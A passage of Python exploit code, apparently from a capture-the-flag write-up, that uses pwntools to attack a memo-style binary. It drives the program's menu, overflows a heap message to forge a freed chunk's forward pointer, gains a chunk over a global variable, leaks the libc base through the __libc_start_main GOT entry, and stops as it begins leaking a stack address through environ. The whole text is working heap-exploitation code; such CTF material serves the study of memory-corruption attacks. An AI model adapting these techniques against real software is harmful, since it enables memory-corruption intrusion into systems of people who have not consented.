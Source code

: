 ```python
r.sendline('y')
r.recvuntil('Password:')
r.sendline('A'*24 + p64(0x30))

def leave(idx, length, payload, overflow=False):
    r.recvuntil('>>')
    r.sendline('1')
    r.recvuntil('Index:')
    r.sendline(str(idx))
    r.recvuntil('Length:')
    r.sendline(str(length))
    if not overflow:
        r.recvuntil('Message:')
    else:
        r.recvuntil('message too long, you can leave on memo though')
    r.sendline(payload)

def delete(idx):
    r.recvuntil('>>')
    r.sendline('4')
    r.recvuntil('Index:')
    r.sendline(str(idx))

def view(idx):
    r.recvuntil('>>')
    r.sendline('3')
    r.recvuntil('Index:')
    r.sendline(str(idx))

def edit(payload):
    r.recvuntil('>>')
    r.sendline('2')
    r.recvuntil('Edit message:')
    r.send(payload)

global_size = 0x602a60
libc_start_main_got = 0x601fb0
libc = ELF('bc.so.6')

leave(0, 32, 'A'*8)
leave(1, 32, 'B'*8)

# Overflow
delete(1)
delete(0)
payload = ('A'*32 + p64(0) + p64(0x31) + # Restore chunk struct
        p64(global_size-0x10))           # Fake fd
leave(0, 400, payload, True)
leave(0, 32, 'A'*4)                      # malloc garbage
fix_size_payload = '\xf0'.ljust(4, '\x00')*4
payload = fix_size_payload + p64(libc_start_main_got)
leave(3, 32, payload)                    # Get the chunk in global

# Leak libc base
view(0)
r.recvuntil('View Message: ')
base = u64(r.recvline()[:-1] + '\x00'*2) - libc.symbols['__libc_start_main']
log.success('base : {}'.format(hex(base)))

# Leak stack address
payload = fix_size_payload + p64(base + libc.symbols['environ'])
edit(payload)
view(0)
```
